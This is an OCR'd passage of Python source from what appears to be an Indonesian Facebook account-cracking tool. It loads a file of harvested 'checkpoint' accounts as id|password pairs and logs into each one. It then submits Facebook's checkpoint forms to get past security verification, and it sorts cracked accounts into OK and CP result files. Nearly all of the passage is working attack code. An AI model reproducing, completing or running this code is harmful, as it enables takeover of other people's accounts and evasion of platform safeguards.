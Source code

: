             "jazoest": jzst,
            "checkpoint_data":"",
            "submit[Continue]":"Lanjutkan",
            "nh": nh
        }
        tempek = par(ses.post(host+form["action"], data=dataD).text, "html.parser")
        ngew = [yy.text for yy in tempek.find_all("option")]
        for opt in range(len(ngew)):
            print(f"{B} | ")
            jalan(f"{U}[{B}{str(opt+1)}{U}]{P}--->{k}[{B}{ngew[opt]}{K}]")
    elif "login_error" in str(run):
        oh = run.find("div",{"id":"login_error"}).find("div").text
        print(f"{P}[•]{M}>>>> {oh}")
    else:
        print(f"{P}[•]{M} Akun tersebut sandi nya telah di ganti")
def cek_hasil():
    print(f"{B} | ")
    print(f"{B} | ")
    print(f"{P}[•] Masukan file cp ")
    print(f"{P}[•] Contoh untuk masukan file : {B}CP/{tanggal}.json")
    print(f"{B} | ")
    files =input(f"{P}[•] Masukan nama file : {B}")
    try:
        buka_baju = open(files,'r').readlines()
    except FileNotFoundError:
        print(f"{B} | ")
        print(f"{B} | ")
        print(f"{P}[•]{M} File tidak di temukan");exit()
        time.sleep(2); cek_hasil()
    print(f"{B} | ")
    print(f"{P}[•] Total akun chekpoint : {B}{str(len(buka_baju))}")
    print(f"{B} | ")
    print(f"{B} | ")
    for memek in buka_baju:
        kontol = memek.replace("\n","")
        titid  = kontol.split("|")
        print(f"{B} | ")
        print(f"{P}[•] Akun facebook : {B}{kontol}")
        try:
            log_hasil(titid[0], titid[1])
        except requests.exceptions.ConnectionError:
            continue
        print("")
    print(f"{B} | ")
    print(f"{B} | ")
    input(f"{P}[•]{I} Chek akun sudah selesai")
    menu()

def cek_results():
    try:
        open("OK/%s.json"%(tanggal))
    except IOError:
        os.system("touch OK/%s.json"%(tanggal))
    try:
        open("CP/%s.json"%(tanggal))
    except IOError:
        os.system("touch CP/%s.json"%(tanggal))
    cp=("CP/%s.json"%(tanggal))
    ok=("OK/%s.json"%(tanggal))
    hsl_cp=open(cp,"r").read()
    hsl_ok=open(ok,"r").read()
    print(f"{B} | ")
    print(f"{B} | ")
    print(f"{P}[1] Cek results cp")